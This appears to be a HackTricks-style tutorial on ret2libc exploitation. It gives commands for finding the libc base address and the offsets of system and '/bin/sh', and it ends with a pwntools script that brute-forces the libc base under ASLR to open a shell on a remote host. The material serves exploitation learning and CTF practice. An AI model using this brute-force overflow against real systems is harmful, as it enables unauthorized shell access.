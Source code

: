 #### You can find the **address of lib**c

```
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```

If you want to check if the ASLR is changing the address of libc you can do:

```
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```

#### Get offset of system function

```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

#### Get offset of "/bin/sh"

```
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

#### /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![img](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20%2899%29.png)

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

#### Using gdb-peda

Get address of **system** function, of **exit** function and of the string **"/bin/sh"** using gdb-peda:

```
p system
p exit
find "/bin/sh"
```

### Bypassing ASLR

You can try to bruteforce the abse address of libc.

```
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

### Code

```
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
    p = ""
    p += p32(off + 0x0003cb20) #system
    p += "CCCC" #GARBAGE
    p += p32(off + 0x001388da) #/bin/sh
    payload = 'A'*0x20010 + p
    c.send(payload)
    c.interactive() #?
```